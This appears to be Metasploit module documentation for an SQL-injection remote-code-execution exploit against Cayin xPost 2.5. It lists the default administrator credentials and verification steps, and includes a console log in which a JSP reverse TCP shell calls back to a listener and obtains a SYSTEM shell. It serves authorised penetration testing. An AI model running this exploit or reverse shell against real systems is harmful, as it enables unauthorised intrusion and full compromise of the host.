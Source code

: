 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

Default authentication for the system is administrator:admin from
[Guide](http://onlinehelp.cayintech.com/xPost/PDF/MAXP20EN110504-l.pdf) page 16

## Verification Steps

  1. Install the application and start it
  2. Start msfconsole
  3. Do: ```exploit/windows/http/cayin_xpost_sql_rce```
  4. Do: ```set rhosts [ip]```
  5. Do: ```run```
  6. You should get a shell.

## Options

### LOCALWEBROOT

Path to the `webapps` folder for Cayin.  Defaults to `C:/CayinApps/webapps/`

## Scenarios

### Cayin xPost 2.5 on Windows 10.0.16299.125

  ```
  [*] Processing xpost.rb for ERB directives.
  resource (xpost.rb)> use exploit/windows/http/cayin_xpost_sql_rce
  resource (xpost.rb)> set payload java/jsp_shell_reverse_tcp
  payload => java/jsp_shell_reverse_tcp
  resource (xpost.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (xpost.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (xpost.rb)> set verbose true
  verbose => true
  resource (xpost.rb)> exploit
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [*] Utilizing payload filename cY0bWf1Rh6C9.jsp
  [*] Payload Size: 1499
  [*] Payload Size Encoded: 2998
  [*] Attempting Exploitation
  [*] Triggering uploaded payload
  [*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50158) at 2020-06-09 12:20:33 -0400
  [!] Tried to delete C:/CayinApps/webapps/cY0bWf1Rh6C9.jsp, unknown result
  
  
  C:\CayinApps\Tomcat>
  C:\CayinApps\Tomcat>whoami
  whoami
  nt authority\system
  
  C:\CayinApps\Tomcat>ver
  ver
  
  Microsoft Windows [Version 10.0.16299.125]
  
  C:\CayinApps\Tomcat>
  ```
